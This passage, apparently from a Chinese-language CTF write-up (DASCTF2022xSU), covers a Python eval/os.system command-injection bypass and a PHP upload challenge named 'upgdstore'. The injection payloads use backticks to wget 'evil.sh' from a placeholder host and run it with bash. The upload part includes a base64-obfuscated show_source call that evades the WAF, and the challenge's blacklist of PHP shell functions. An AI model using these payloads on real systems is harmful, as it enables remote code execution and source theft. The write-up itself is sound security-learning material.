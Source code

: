#### 解法二 

来自vidar summer师傅的思路

num = "1+1#\`wget\thttp://x.x.x.x:60056/evil.sh\`"
num = "1+1#\`bash\tevil.sh\`"

这里#在python中确实会注释后面的内容，eval不会报错因为反引号内容被注释了，但是在os.system里面由于#在双引号中，反引号里面的内容在shell里代码会被执行，#只会被当作一个字符，这点非常神奇，学习了两位师傅的解法后发现都用了#去绕过，但是具体的利用方式也不一样，非常巧妙，学到了很多。

### upgdstore

>
>
>参考:https://erroratao.github.io/writeup/DASCTF2022xSU/

是个文件上传的题目但是没有给出源码，上传一个`<?php phpinfo();?>`内容的php文件，发现上传成功并且给出了访问路径

![image-20220327134842381](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220327134842381.png)

看一看phpinfo能不能拿到源码

![image-20220327135926344](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220327135926344.png)

看了看发现有很多很多disable_function，非常吓人，

可以使用show_source读取index.php的源码，然后用base64编码绕过waf对此函数的过滤，所以我们传入`<?php base64_decode("c2hvd19zb3VyY2U=")('../index.php');?>`内容的文件，得到源码

```php
<div class="light"><span class="glow">
<form enctype="multipart/form-data" method="post" onsubmit="return checkFile()">
    嘿伙计，传个火？！
    <input class="input_file" type="file" name="upload_file"/>
    <input class="button" type="submit" name="submit" value="upload"/>
</form>
</span><span class="flare"></span><div>
<?php
function fun($var): bool{
    $blacklist = ["\$_", "eval","copy" ,"assert","usort","include", "require", "$", "^", "~", "-", "%", "*","file","fopen","fwriter","fput","copy","curl","fread","fget","function_exists","dl","putenv","system","exec","shell_exec","passthru","proc_open","proc_close", "proc_get_status","checkdnsrr","getmxrr","getservbyname","getservbyport", "syslog","popen","show_source","highlight_file","`","chmod"];

    foreach($blacklist as $blackword){
        if(strstr($var, $blackword)) return True;
    }

    
    return False;
}
error_reporting(0);
//设置上传目录
define("UPLOAD_PATH", "./uploads");
$msg = "Upload Success!";
if (isset($_POST['submit'])) {
$temp_file = $_FILES['upload_file']['tmp_name'];
$file_name = $_FILES['upload_file']['name'];
$ext = pathinfo($file_name,PATHINFO_EXTENSION);
if(!preg_match("/php/i", strtolower($ext))){
die("只要好看的php");
}

$content = file_get_contents($temp_file);
if(fun($content)){
    die("诶，被我发现了吧");
```